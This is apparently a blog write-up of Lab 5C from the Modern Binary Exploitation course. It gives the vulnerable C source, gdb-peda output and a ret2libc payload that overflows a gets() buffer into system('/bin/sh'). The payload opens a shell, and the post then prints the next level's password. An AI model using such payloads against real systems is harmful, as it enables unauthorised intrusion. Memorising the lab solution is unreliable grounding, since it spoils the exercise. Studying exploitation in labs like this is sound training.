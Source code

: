 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 5C
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}
{% endhighlight %}

Running `chekcsec` on the binary gives us the following results.
{% highlight bash %}
gdb-peda$ checksec                                                                                                                          
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

We can simply smash the stack and overwrite the saved return address with the address of `system()` and pass in the address of a `"/bin/sh"` string we place on the stack.

Using gdb and fixenv, we can see that `system()` exists at address `0xb7e63190` and that our `"/bin/sh\0"` arguent is located at the stack address `0xbffff738`.

{% highlight bash %}
gdb-peda$ r < <(python -c 'print "A"*156+"\x90\x31\xe6\xb7"+"BBBB"+"\x38\xf7\xff\xbf"+"/bin/sh\0"')                                         
Starting program: /tmp/lab5C/.launcher < <(python -c 'print "A"*156+"\x90\x31\xe6\xb7"+"BBBB"+"\x38\xf7\xff\xbf"+"/bin/sh\0"')
I included libc for you...
Can you ROP to system()?
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x41414141 ('AAAA')
ECX: 0x0 
EDX: 0x804a060 ('A' <repeats 128 times>)
ESI: 0x41414141 ('AAAA')
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff72c --> 0xb7e63190 (<__libc_system>:	push   ebx)
EIP: 0x80486bf (<copytoglobal+82>:	ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486bc <copytoglobal+79>:	pop    esi
   0x80486bd <copytoglobal+80>:	pop    edi
   0x80486be <copytoglobal+81>:	pop    ebp
=> 0x80486bf <copytoglobal+82>:	ret    
   0x80486c0 <main>:	push   ebp
   0x80486c1 <main+1>:	mov    ebp,esp
   0x80486c3 <main+3>:	push   edi
   0x80486c4 <main+4>:	push   ebx
[------------------------------------stack-------------------------------------]
0000| 0xbffff72c --> 0xb7e63190 (<__libc_system>:	push   ebx)
0004| 0xbffff730 ("BBBB8\367\377\277/bin/sh")
0008| 0xbffff734 --> 0xbffff738 ("/bin/sh")
0012| 0xbffff738 ("/bin/sh")
0016| 0xbffff73c --> 0x68732f ('/sh')
0020| 0xbffff740 --> 0x0 
0024| 0xbffff744 --> 0x0 
0028| 0xbffff748 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080486bf in copytoglobal ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e63190 <__libc_system>
{% endhighlight %}

Putting everything together, the following input will give us a shell.

## Solution
{% highlight bash %}
(python -c 'print "A"*156+"\x90\x31\xe6\xb7"+"BBBB"+"\x38\xf7\xff\xbf"+"/bin/sh\0"'; cat -) | fixenv /levels/lab05/lab5C
I included libc for you...
Can you ROP to system()?
id
uid=1018(lab5C) gid=1019(lab5C) euid=1019(lab5B) groups=1020(lab5B),1001(gameuser),1019(lab5C)
cat /home/lab5B/.pass
s0m3tim3s_r3t2libC_1s_3n0ugh
{% endhighlight %}
